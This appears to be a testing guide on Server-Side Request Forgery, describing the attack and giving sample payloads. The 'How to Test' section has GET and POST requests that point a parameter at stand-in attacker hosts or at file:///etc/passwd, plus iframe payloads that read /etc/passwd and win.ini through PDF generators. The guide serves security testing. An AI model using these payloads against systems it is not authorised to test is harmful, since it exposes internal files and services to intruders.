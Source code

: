 Overview
--------
In a Server-Side Request Forgery (SSRF) attack, the attacker can abuse functionality on the server to read or update internal resources. The attacker can supply or a modify a request which the code running on the server will process. By carefully selecting the details, the attacker may be able to read server configuration such as AWS metadata, connect to internal services like HTTP enabled databases, or perform POST requests towards internal services which are not intended to be exposed.

### Description
The target application may have functionality for importing data from a URL, publishing data to a URL, or otherwise reading data from a request that can be tampered with. The attacker modifies the calls to this functionality by supplying a completely different request or by manipulating how requests are built (path traversal, etc.).

Some common vulnerabilities related to server-side request forgery:
- URL redirection
- Remote file inclusion
- SQL injection
- Link Injection

### How to Test

#### Case I: End points which fetch external/internal resources

With GET request:
- http://example.com/index.php?page=about.php
- http://example.com/index.php?page=https://attackersite.com
- http://example.com/index.php?page=file:///etc/passwd

With POST request:

	POST /test/ssrf_form.php HTTP/1.1
	Host: example.com

	url=https://hacker.com/as&name2=value2

#### Case II: PDF generators 

There are some cases where server converts uploaded file to a pdf.Try injecting <iframe>, <img>, <base> or <script> elements or CSS url() functions pointing to internal services.

	<iframe src="file:///etc/passwd" width="400" height="400">
	<iframe src="file:///c:/windows/win.ini" width="400" height=”400">

Tools
----- 
Burpsuite, ZAP

References
------------
* [Reading Internal Files Using SSRF Vulnerability](https://medium.com/@neerajedwards/reading-internal-files-using-ssrf-vulnerability-703c5706eefb)
* [Abusing the AWS Metadata Service Using SSRF Vulnerabilities](https://blog.christophetd.fr/abusing-aws-metadata-service-using-ssrf-vulnerabilities/)
